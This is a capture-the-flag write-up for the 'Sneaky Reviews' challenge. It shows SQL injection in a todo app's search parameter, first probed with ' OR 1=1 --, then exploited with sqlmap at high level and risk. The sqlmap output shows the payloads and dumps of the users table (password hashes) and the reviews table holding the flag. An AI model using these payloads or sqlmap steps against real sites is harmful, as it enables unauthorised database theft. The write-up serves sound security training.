




# Sneaky Reviews 
**Proposed difficulty**: Medium

Jeg er ved at oprette en webapp til at administrere todos, du kan tjekke den på sneeky-reviews.hkn Lad mig vide hvad du tænker.

[http://sneeky-reviews.hkn/]

## Walkthrough
In challenge we gain access to the website `http://sneeky-reviews.hkn/`:



Creating a user and loggin in we are now greeted this this home page:


We can create notes on to the todo page:



Adding this todo to the list we get:


Now to the main part of the challenge is to realize that the search bar is vulnerable to SQLi, which we can test something as simple as how it handles `' OR 1=1 --`:



We can quickly see that it does not handle `' OR 1=1 --` very well. We get a lot of new entires from some table in a database, but none of the entries contains the flag, so to see if there are other tables on the database using `sqlmap` will help greatly.

Firstly we need to capture a GET request from the search bar, which I put inside the file `request.txt`:

```
GET /search?s=asd HTTP/1.1
Host: sneeky-reviews.hkn
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://sneeky-reviews.hkn/search?s=%27
Cookie: session=.eJwljrsSwkAIAP-F2gK4B5CfcbiDG20TUzn-u3FsttudfcN97Xk8YHvtZ97g_gzYADGKe8EuyZak1lJqG11ssVuzC1OEvNaYo6DX1dg1dRZXjdHJdHVHWhz0C3GEjSE9akM3S-c2zWY1UpbO3Baq42XgGlIs4Ro5j9z_N9Th8wW_qy7p.ZDqXpw.fSO8RO5nBtXrr32sv_vBW-_Vsuc
Upgrade-Insecure-Requests: 1
DNT: 1
Sec-GPC: 1
```

Running a simple sqlmap will not yield anything, so setting that aggresiveness and the risk levels up (This generates a lot more noise) we get the `sqlmap -r request.txt --level=3 --risk 3 --threads=10` command. Note that you might want to adjust `10`to another number depending on how many threads your CPU has. This gives the output:

```
$ sqlmap -r request.txt --level=3 --risk 3 --threads=10 

        ___
       __H__
 ___ ___["]_____ ___ ___  {1.7.2#stable}
|_ -| . [)]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:49:09 /2023-04-15/

[14:49:09] [INFO] parsing HTTP request from 'request.txt'
[14:49:09] [INFO] resuming back-end DBMS 'sqlite' 
[14:49:09] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: s (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: s=-2344' OR 2411=2411-- UDjV

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: s=asd' OR 8965=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- PTai

    Type: UNION query
    Title: Generic UNION query (random number) - 5 columns
    Payload: s=asd' UNION ALL SELECT CHAR(113,107,113,118,113)||CHAR(106,104,70,70,112,121,113,120,71,120,103,70,97,118,117,117,120,100,72,80,109,72,114,106,83,77,106,97,87,98,79,88,76,119,67,106,89,117,86,73)||CHAR(113,107,112,120,113),5778,5778,5778,5778-- FFWD
---
[14:49:09] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[14:49:09] [INFO] fetched data logged to text files under '/home/<user>/.local/share/sqlmap/output/sneeky-reviews.hkn'

[*] ending @ 14:49:09 /2023-04-15/

```

Now that we have found that the `s` parameter is vulnerable we have discovered some tables, which we can get using `sqlmap -r request.txt --tables`  we get:


```
$ sqlmap -r request.txt --tables

        ___
       __H__
 ___ ___[)]_____ ___ ___  {1.7.2#stable}
|_ -| . [']     | .'| . |
|___|_  [,]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:48:48 /2023-04-15/

[14:48:48] [INFO] parsing HTTP request from 'request.txt'
[14:48:48] [INFO] resuming back-end DBMS 'sqlite' 
[14:48:48] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: s (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: s=-2344' OR 2411=2411-- UDjV

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: s=asd' OR 8965=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- PTai

    Type: UNION query
    Title: Generic UNION query (random number) - 5 columns
    Payload: s=asd' UNION ALL SELECT CHAR(113,107,113,118,113)||CHAR(106,104,70,70,112,121,113,120,71,120,103,70,97,118,117,117,120,100,72,80,109,72,114,106,83,77,106,97,87,98,79,88,76,119,67,106,89,117,86,73)||CHAR(113,107,112,120,113),5778,5778,5778,5778-- FFWD
---
[14:48:48] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[14:48:48] [INFO] fetching tables for database: 'SQLite_masterdb'
<current>
[3 tables]
+---------+
| reviews |
| todos   |
| users   |
+---------+

[14:48:48] [INFO] fetched data logged to text files under '/home/bruh/.local/share/sqlmap/output/sneeky-reviews.hkn'

[*] ending @ 14:48:48 /2023-04-15/
```

So there are 3 tables that we can inspect: reviews, todos and users. Since the challenge title contains `review` checking the `reviews` table might be a good idea. We can do this using `sqlmap -r request.txt --dump reviews`:

```
$ sqlmap -r request.txt --dump reviews

        ___
       __H__
 ___ ___[(]_____ ___ ___  {1.7.2#stable}
|_ -| . [(]     | .'| . |
|___|_  ["]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:48:38 /2023-04-15/

[14:48:38] [INFO] parsing HTTP request from 'request.txt'
[14:48:38] [INFO] resuming back-end DBMS 'sqlite' 
[14:48:38] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: s (GET)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: s=-2344' OR 2411=2411-- UDjV

    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: s=asd' OR 8965=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- PTai

    Type: UNION query
    Title: Generic UNION query (random number) - 5 columns
    Payload: s=asd' UNION ALL SELECT CHAR(113,107,113,118,113)||CHAR(106,104,70,70,112,121,113,120,71,120,103,70,97,118,117,117,120,100,72,80,109,72,114,106,83,77,106,97,87,98,79,88,76,119,67,106,89,117,86,73)||CHAR(113,107,112,120,113),5778,5778,5778,5778-- FFWD
---
[14:48:38] [INFO] the back-end DBMS is SQLite
back-end DBMS: SQLite
[14:48:38] [INFO] fetching tables for database: 'SQLite_masterdb'
[14:48:38] [INFO] fetching columns for table 'users' 
[14:48:38] [INFO] fetching entries for table 'users'
Database: <current>
Table: users
[16 entries]
+----+------------------------------+--------------------------------------------------------------+------------+------------+
| id | email                        | password                                                     | last_name  | first_name |
+----+------------------------------+--------------------------------------------------------------+------------+------------+
| 1  | kristacunningham@example.org | $2b$12$5w5HCTgQ2UccUqjJLQF9.u4i/OBZw/Gr/ASl75kRvfVlWdfw7Y4ty | Ortiz      | Nicole     |
| 2  | rsmith@example.com           | $2b$12$ZkWMLn.9z0bYzI1pcav/mOoypARnAQSXVNH3sMOD8WFRpV9BeVbuO | Peterson   | Sharon     |
| 3  | daniel74@example.org         | $2b$12$68n2LrO0L2UNmFUD2mO9.O7aFYaddEcug0FIS360kqcTzvpTFvLfe | Russell    | Sean       |
| 4  | larry90@example.com          | $2b$12$eHlmr5JcPA4IZlLXc0FbtOaRRAxdph.EeESu6Un9bPTKfSLD31N5i | Perry      | Kara       |
| 5  | xkemp@example.org            | $2b$12$tZy7UFERMW1raedQBD7L4.J/0XNVe6lTXUolf15DSFa7Za6NZWkZa | Richardson | Maria      |
| 6  | jimenezanthony@example.net   | $2b$12$lpWhcUv83XqePs18TrE1kObWiqjW8gpVJC9yEgSLgw5MnDSSY2QIi | Fuller     | David      |
| 7  | daviskatrina@example.net     | $2b$12$OIr9zdRmi1dxE.D8jHEqsuNtk3hzvkfdwEvQoqQvmNRm5G6dLe0SS | Franklin   | Bailey     |
| 8  | gbruce@example.com           | $2b$12$ES24hGAsNPnGff5VCpwEoePKSUCa4vBwE5oKYhtjw1P0owjEw6JRC | Lawson     | Courtney   |
| 9  | bjones@example.com           | $2b$12$2meh8ZDrirHC11iJ8u.BV.Z/6oCKq/GfYTL9vm.gAnZmch/SP37O2 | Thompson   | Jason      |
| 10 | jamesrobert@example.org      | $2b$12$jgeE9cSprkg5Tc8VbCnhA.PCCJuBtrxxklfJpn3jqhkmMG8OWMka2 | Wallace    | Caitlin    |
| 11 | lwilliams@example.com        | $2b$12$kY2NCQ2nHhcYOwtGuUX3IO4EMkAjLGfSoWFWIP0KoKUQznBXa55q6 | Porter     | Peter      |
| 12 | agarza@example.org           | $2b$12$7RoAdTJOyBiIo8jWmxlJMeIPm3lMvhVKPG/e2KRzCjwqx7cbh7AQC | Gross      | Andre      |
| 13 | chavezjoe@example.net        | $2b$12$DM8AN3aFKpbCtgdN.FF36eiCod7o6.yHXl/f6YGXyuN.zMTXDG36G | Stewart    | Kirk       |
| 14 | anthonyriddle@example.com    | $2b$12$0UnBigJ9TRuJy.CI5IhhJe51VhZEjq8GwMJ90diMYu20EoJEYjnVm | Navarro    | Dylan      |
| 15 | ymartinez@example.com        | $2b$12$xKIUmbMGgPSGg.0z0XGSxucmxierpoyj/jx5uMgTB2sg0qKfKuNkC | Davis      | Donald     |
| 16 | ok@ok.ok                     | $2b$12$3NZ3yDysBJqrr2Rkz4gQTOqGw8otamoQTrF6jMQug99qKXME9kagS | ok         | ok         |
+----+------------------------------+--------------------------------------------------------------+------------+------------+

[14:48:38] [INFO] table 'SQLite_masterdb.users' dumped to CSV file '/home/bruh/.local/share/sqlmap/output/sneeky-reviews.hkn/dump/SQLite_masterdb/users.csv'
[14:48:38] [INFO] fetching columns for table 'reviews' 
[14:48:38] [INFO] fetching entries for table 'reviews'
Database: <current>
Table: reviews
[24 entries]
+----+----------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------+-------+-------------------+
| id | note                                               | text                                                                                                                         | draft | author            |
+----+----------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------+-------+-------------------+
| 1  | NULL                                               | We started using this for our "Fun with Flags" fan club.                                                                     | 1     | Peter Porter      |
| 2  | NULL                                               | I am getting tired of this website 🙄                                                                                        | 0     | Jason Thompson    |
| 3  | NULL                                               | It's free but quite basic.                                                                                                   | 0     | Kara Perry        |
| 4  | NULL                                               | The search feature is very handy and straightforward.                                                                        | 0     | Sharon Peterson   |
| 5  | NULL                                               | We found a bug in the CTF challenge itself. If you're reading this know that we managed to delete all flags for your team 😈 | 1     | Maria Richardson  |
| 6  | NULL                                               | It's your average todo webapp, nothing fancy but it works                                                                    | 1     | Nicole Ortiz      |
| 7  | NULL                                               | Not I can see the door of my fridge again, no more post-its!                                                                 | 0     | David Fuller      |
| 8  | NULL                                               | The search feature is very handy and straightforward.                                                                        | 1     | Sean Russell      |
| 9  | NULL                                               | I simply love it! 😍                                                                                                         | 0     | Maria Richardson  |
| 10 | NULL                                               | I migrated from post-its and I am not looking back!                                                                          | 0     | Courtney Lawson   |
| 11 | NULL                                               | It's free but quite basic.                                                                                                   | 1     | Caitlin Wallace   |
| 12 | DDC{1_c0uld_h4v3_dr0pp3d_3v3ryth1ng_but_1_4m_n1c3} | 🇩🇰                                                                                                                         | 1     | Flaggy McFlagface |
| 13 | NULL                                               | I migrated from post-its and I am not looking back!                                                                          | 1     | Kara Perry        |
| 14 | NULL                                               | It's an endless parade of vulnerabilities only a noob would every write. Learn how to program!                               | 0     | Peter Porter      |
| 15 | NULL                                               | I simply love it! 😍                                                                                                         | 1     | Jason Thompson    |
| 16 | NULL                                               | We found a bug in the CTF challenge itself. If you're reading this know that we managed to delete all flags for your team 😈 | 0     | Bailey Franklin   |
| 17 | NULL                                               | Here is your review, stop asking to review your app!                                                                         | 0     | Caitlin Wallace   |
| 18 | NULL                                               | Here is your review, stop asking to review your app!                                                                         | 1     | Sharon Peterson   |
| 19 | NULL                                               | He who laughs at himself never runs out of things to laugh at.                                                               | 0     | Epictetus         |
| 20 | NULL                                               | Not I can see the door of my fridge again, no more post-its!                                                                 | 1     | Bailey Franklin   |
| 21 | NULL                                               | We started using this for our "Fun with Flags" fan club.                                                                     | 0     | Nicole Ortiz      |
| 22 | NULL                                               | It's your average todo webapp, nothing fancy but it works                                                                    | 0     | Sean Russell      |
| 23 | NULL                                               | It's an endless parade of vulnerabilities only a noob would every write. Learn how to program!                               | 1     | Courtney Lawson   |
| 24 | NULL                                               | I am getting tired of this website 🙄                                                                                        | 1     | David Fuller      |
+----+----------------------------------------------------+------------------------------------------------------------------------------------------------------------------------------+-------+-------------------+


[*] ending @ 14:48:38 /2023-04-15
```

There is quite a lot to look at, under the reviews table we get the flag.

## Flag
`DDC{1_c0uld_h4v3_dr0pp3d_3v3ryth1ng_but_1_4m_n1c3}`
